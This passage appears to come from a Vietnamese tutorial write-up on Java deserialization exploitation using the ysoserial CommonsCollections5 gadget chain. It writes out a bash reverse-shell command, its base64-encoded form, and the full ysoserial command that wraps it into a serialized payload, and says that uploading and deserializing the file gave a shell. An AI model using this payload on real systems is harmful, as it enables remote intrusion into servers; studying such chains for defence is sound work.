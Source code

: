 Mình tiến hành khởi tạo payload: base64 command muốn thực thi `bash -i >& /dev/tcp/0.0.0.0/2727 0>&1` trở thành `YmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzI3MjcgMD4mMQ==`

Sau đó nhét vào payloads. Command đầy đủ để khởi tạo payload với cách này như sau:

`java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzI3MjcgMD4mMQ==}|{base64,-d}|{bash,-i}" > order.ser`

Thực hiện upload file `.ser` này rồi deser, thành công có được shell.

![](images/CC5_image38.png)

### References:

> Là một người mới học java, mình muốn cảm ơn mọi người về những bài viết public này, chúng đã giúp đỡ mình rất nhiều

[The Art of Deserialization Gadget Hunting [part 2]](https://sec.vnpt.vn/2020/02/the-art-of-deserialization-gadget-hunting-part-2?page=42)

[Java Deserialize - P2 - HackMD](https://hackmd.io/@endy/HyzJE0jO2)

[# JavaSecurity101 – #5: Java Deserialization – ysoserial 3](https://tsublogs.wordpress.com/2023/02/26/javasecurity101-5-java-deserialization-ysoserial-3/)
